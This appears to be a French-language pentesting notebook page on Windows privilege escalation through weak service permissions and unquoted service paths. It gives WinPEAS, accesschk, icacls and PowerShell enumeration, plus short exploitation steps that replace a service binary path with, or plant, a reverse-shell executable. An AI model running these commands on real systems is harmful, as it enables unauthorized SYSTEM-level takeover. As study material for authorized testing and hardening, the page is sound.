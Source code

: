 ```yaml
---
public: true
---
```


**Détails de Recherche de vecteur d'escalade via des services : [[Weak Permissions]]**

## Trouver un service vulnérable (automatique)

`WinPeas` identifie tous les services vulnérables.

Il faut regarder les sections suivantes :

```shell
# Information sur les services
===============(Services Information)=============

# Information sur les Applications (à recouper avec les chemin d'accès des services)
===========(Applications Information)================
```

## Permissions de modifier un service

Si on peut modifier un service, on pourra remplacer le processus lancé par un reverse shell.

### Detection

#### Manuelle

```shell
accesschk -accepteula -quwc daclsvc
daclsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
  RW Everyone                          <====================
```

#### Automatique

Dans les résultats de la commande `.\winPEASany.exe quiet servicesinfo applicationsinfo` :

```shell
===============(Services Information)=============
 daclsvc(DACL Service)["C:\Program Files\DACL Service\daclservice.exe"] - Manual - Stopped
    YOU CAN MODIFY THIS SERVICE: WriteData/CreateFiles       <=====
```

### Exploitation

```shell
# Changement du path du service
net stop daclsvc
sc config daclsvc binpath= "\"C:\Windows\Temp\reverse.exe\""
net start daclsvc
```

## Unquoted service path
### Détection
#### Manuelle
Enuméré les services, et selectioner ceux qui ne commencent pas par des guillemets.
Exemple avec le path : `C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`

```shell
# vérification avec icacls des différent chemins exploitables
"C:\Program Files\Unquoted Path Service\Common.exe"
"C:\Program Files\Unquoted.exe"
"C:\Program.exe"

# tenter de créer un fichier :
echo "test" > "C:\Program Files\Unquoted Path Service\Common.exe"
del "C:\Program Files\Unquoted Path Service\Common.exe"
# si pas d'erreur alors c'est exploitable

```
Remarque : On doit pouvoir le faire avec `icacls` ou `accesschk.exe` mais je n'ai pas pris le temps de creuser pour obtenir une méthode fiable.

#### Automatique

```shell
===============(Services Information)=============
[...]
unquotedsvc(Unquoted Path Service)[C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe] - Manual - Stopped - 
No quotes and Space detected
   =================================================================================================                                <=====
[...]

=========(Applications Information)=======
[...]
C:\Program Files\Unquoted Path Service(Users [AllAccess])       <====
[...]
```

### Exploitation

```shell
copy reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
net stop unquotedsvc
net start unquotedsvc
```

## Weak registry permissions

### Detection

#### Manuelle
```shell

```

#### Automatique
```shell
==============(Services Information)===============
[...]
 LOOKS LIKE YOU CAN MODIFY SOME SERVICE/s:
 daclsvc: WriteData/CreateFiles
```

### Exploitation

```shell

```

## Trouver un service vulnérable (manuel)

### Lister les services

Lorsqu'on liste les service, on recherche en priorité des **chemins d'accès atypiques** qui potentiellement  seront moins bien conçus que les services natif au système d'exploitation :

Hors du dossier `c:\windows`

```powershell
get-wmiobject win32_service | select name,state, startmode,pathname,StartName | ?{$_.StartName -eq "LocalSystem" -and $_.pathname -notlike "c:\Windows\*" }| Sort PathName |ft
```

```shell
wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """
```

Tous les services

```powershell
get-wmiobject win32_service | select name,state, startmode,pathname,StartName | ?{$_.StartName -eq "LocalSystem" -and $_.pathname -notlike "C:\Windows\system32\svchost.exe *" }| Sort PathName |ft
```

### Regardes les permissions

#### Droits de modification d'éléments dans le path

Prenons l'exemple du service suivant :

```
C:\Program Files\Super Vendor\Great Product\superservice.exe
```

On cherchera si on peut créer les exécutables suivants :

- `C:\Program Files\Super Vendor\Great.exe`
- `C:\Program Files\Super.exe`
- `C:\Program.exe`

On vérifie donc les permission sur les dossiers parents de ces fichier potentiels :

```shell
# REMARQUE : pour les dossiers, il ne faut pas ajouter de "\" à la fin !
icacls "C:\Program Files\Super Vendor"
icacls "C:\Program Files"
icacls "C:\"
```

Exemple de permissions :

```shell
# peut créer des Dossiers MAIS PAS des fichiers
CREATOR OWNER:(OI)(CI)(IO)(F) 
# peut créer des dossiers ET des fichiers !! (exploitable)

CREATOR OWNER:(I)(OI)(CI)(IO)(F)

```

#### Unquoted service path

Pour ce type de mauvaise configuration, on cherchera des services dont le chemin d'accès :

- n'est pas entouré de "doubles quotes" (guillemets)
- contient des dossier contenant des espaces dans leur nom

### Services en dehors de c:\windows\system32

```powershell
# démarrés ou non
get-wmiobject win32_service | select name,state, startmode,pathname,StartName | ?{$_.StartName -eq "LocalSystem" -and $_.pathname -notlike "c:\Windows\System32\*" }|ft


# Rechercher des chemins d'accès atypiques 
get-wmiobject win32_service | select name,state, startmode,pathname,StartName |?{$_.State -like 'Running'}|Sort StartName | ft

  
# Liste des services sans ceux dans c:\windows :
get-wmiobject win32_service | select name,state,pathname |?{$_.State -like 'Running'} |? {$_.Pathname -notmatch 'c:\\Windows\\.*' }

# Vérifier les permissions
> icacls 'C:\Program Files\Ext2Fsd\Ext2Srv.exe'
C:\Program Files\Ext2Fsd\Ext2Srv.exe AUTORITE NT\Système:(I)(F)
                                     BUILTIN\Administrateurs:(I)(F)
                                     BUILTIN\Utilisateurs:(I)(RX)
                                     AUTORITÉ DE PACKAGE D’APPLICATION\TOUS LES PACKAGES D’APPLICATION:(I)(RX)
                                     AUTORITÉ DE PACKAGE D’APPLICATION\TOUS LES PACKAGES D’APPLICATION RESTREINTS:(I)(RX)

```

[Documentation icacls](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls)

- A sequence of simple rights (basic permissions):
	- F - Full access
	- M - Modify access
	- RX - Read and execute access
	- R - Read-only access
	- W - Write-only access
- Inheritance rights may precede either `<perm>` form:
	- **(I)** - Inherit. ACE inherited from the parent container.
	- (OI)** - Object inherit. Objects in this container will inherit this ACE. Applies only to directories.
	- **(CI)** - Container inherit. Containers in this parent container will inherit this ACE. Applies only to directories.
	- **(IO)** - Inherit only. ACE inherited from the parent container, but does not apply to the object itself. Applies only to directories.
	- **(NP)** - Do not propagate inherit. ACE inherited by containers and objects from the parent container, but does not propagate to nested containers. Applies only to directories.
